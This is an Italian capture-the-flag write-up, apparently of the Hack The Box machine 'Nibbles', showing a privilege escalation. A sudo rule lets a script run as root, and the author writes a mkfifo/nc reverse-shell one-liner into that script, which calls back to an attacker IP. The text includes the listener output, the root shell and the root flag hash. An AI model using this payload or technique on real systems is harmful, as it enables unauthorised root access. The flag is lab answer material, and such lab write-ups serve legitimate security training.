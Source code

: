 Vediamo con sudo -l se possiamo eseguire qualcosa come root
```bash
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Possiamo eseguire lo script monitor.sh nella directory sopra specificata come root senza dover inserire una password di root. Perché questa è una buona notizia per noi? 
Se chiamiamo una shell in quello script, possiamo eseguirla come root!

```bash
$ cat home/nibbler/personal/stuff/monitor.sh
cat: home/nibbler/personal/stuff/monitor.sh: No such file or directory
```

Non esiste! Dovremo crearne uno, creiamo le cartelle mancanti /personal/stuff 
con echo impostiamo una revshell che salveremo con il nome di monitor.sh
```bash

nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.53 888 > /tmp/f" >> monitor.sh
```

Ci mettiamo in ascolto con nc 
```bash
┌──(root㉿kali)-[/home/kali/htb/nibbles]
└─# nc -lnvp 888
listening on [any] 888 ...
```

Dalla macchina target lanciamo monitor.sh con il comando sudo 

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
sudo ./monitor.sh
```

Otteniamo una shell da root

```bash
┌──(root㉿kali)-[/home/kali/htb/nibbles]
└─# nc -lnvp 888
listening on [any] 888 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.75] 60324
whoami
root
```


Flag root
```bash
cat root.txt
8a983562cb7edab06e0b09fd1dcbea55
```
